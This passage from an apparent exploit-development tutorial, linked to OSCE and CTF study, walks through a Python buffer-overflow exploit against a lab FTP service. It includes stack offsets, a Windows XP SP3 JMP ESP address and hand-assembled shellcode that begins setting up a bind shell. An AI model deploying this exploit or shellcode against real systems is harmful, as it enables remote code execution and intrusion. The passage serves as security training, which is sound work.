 Now this is where it starts to get interesting, because this call is a blocking call. As a result, we need to have our attacker script connect to the bind port for the script to continue. We'll make another call to the server on the next port (22) and for this we'll be sending the payload that we want executed on the server. For now, this payload will be a dummy payload, but in future it will be any payload we want. This is what the exploit looks like now:

``` python
#!/usr/bin/python

import socket, struct, time

host = '10.1.10.34'
port = 21

def read_file(path):
  with open(path, 'r') as f:
    return f.read()

def pwn(payload, port, recv = True):
  print "[*] Sending {0} bytes to {1}:{2}...".format(len(payload), host, port)
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((host, port))
  if recv:
    s.recv(2048)
  s.send(payload)
  s.shutdown
  s.close

max_size = 365

offsets = {
  'SC': 266,
  'EIP': 294,
  'ESP': 302,
}

# the start of our collection of supported platforms
targets = [
  { 'Name': 'Windows XP SP3', 'JMPESP': 0x7e4456f7 }
]

# Hard coded target for now
target = targets[0]

print "[*] Attacking {0}:{1} ...".format(host, port)

block1  = ""
# Adjust the stack to prevent it from breaking things in our shellcode
block1 += "\x83\xEC\x7C"                       # SUB ESP, 0x7C
# Get the address of `socket` into EBX
block1 += "\xBB\x44\x34\x34\x40"               # MOV EBX,<offsetted address>
block1 += "\xC1\xEB\x08"                       # SHR EBX, 0x8
# set up the stack for the call to `socket`
block1 += "\xB0\x06"                           # MOV AL, 0x6
block1 += "\x50"                               # PUSH EAX
block1 += "\xB0\x01"                           # MOV AL, 0x1
block1 += "\x50"                               # PUSH EAX
block1 += "\x40"                               # INC EAX
block1 += "\x50"                               # PUSH EAX
# invoke the call to `socket`
block1 += "\xFF\xD3"                           # CALL EBX
# save our socket handle
block1 += "\x89\xC7"                           # MOV EDI, EAX
# Find sockaddr
```

  [OSCE]: http://buffered.io/posts/osce-and-me/
  [ExploitDB]: http://exploit-db.com/
  [Corelan]: https://www.corelan.be/
  [Fuzzy Security]: http://www.fuzzysecurity.com/
  [CTF]: https://en.wikipedia.org/wiki/Capture_the_flag
  [ShellStorm]: http://www.shell-storm.org/
  [Ammar]: http://clog.ammar.web.id/2013/06/idsecconf-2013-ctff-offline-challenge.html
  [idsecconf]: http://2013.idsecconf.org/
  [Meterpreter]: https://github.com/rapid7/meterpreter
  [Immunity Debugger]: https://www.immunityinc.com/products-immdbg.shtml
  [Mona.py]: http://redmine.corelan.be/projects/mona
  [Corelanc0d3r]: https://twitter.com/corelanc0d3r
  [muts]: https://twitter.com/kalilinux